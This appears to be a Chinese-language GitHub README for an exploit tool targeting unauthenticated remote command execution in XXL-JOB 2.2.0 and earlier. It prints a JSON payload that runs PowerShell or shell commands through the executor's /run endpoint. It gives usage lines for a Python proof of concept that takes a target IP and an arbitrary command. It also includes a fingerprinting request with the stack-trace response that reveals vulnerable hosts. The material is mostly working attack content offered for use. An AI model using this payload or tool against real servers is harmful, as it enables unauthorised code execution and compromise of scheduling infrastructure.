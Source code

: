 # xxl-job-rce

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。
在xxl-job<= 2.2.0版本存在未授权命令执行

## payload:
```
{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```
##工具使用截图
###用法:
python3 xxl-job-rce.py [IP Address] -p [Prot(default 9999)] -c [Command] -m[Ccript Method(default powershell)]'
python3 xxl-job-poc.py 192.168.229.146 -c calc
python3 xxl-job-poc.py 192.168.229.146 -c calc -m shell -p 9999

![image](https://github.com/mrknow001/xxl-job-rce/blob/main/xxl-job-powershell.png)
![image](https://github.com/mrknow001/xxl-job-rce/blob/main/xxl-job-python.png)


## 根据异常报错指纹-快速发现目标机器

```
POST /run HTTP/1.1
Host: 127.0.0.1:9999
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
```
HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 646

{
  "code": 500,
  "msg": "request error:java.lang.NullPointerException
	at com.xxl.job.core.biz.impl.ExecutorBizImpl.run(ExecutorBizImpl.java:49)
	at com.xxl.job.core.server.EmbedServer$EmbedHttpServerHandler.process(EmbedServer.java:201)
	at com.xxl.job.core.server.EmbedServer$EmbedHttpServerHandler.access$200(EmbedServer.java:138)
	at com.xxl.job.core.server.EmbedServer$EmbedHttpServerHandler$1.run(EmbedServer.java:166)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617)
	at java.lang.Thread.run(Thread.java:745)
"
}
```
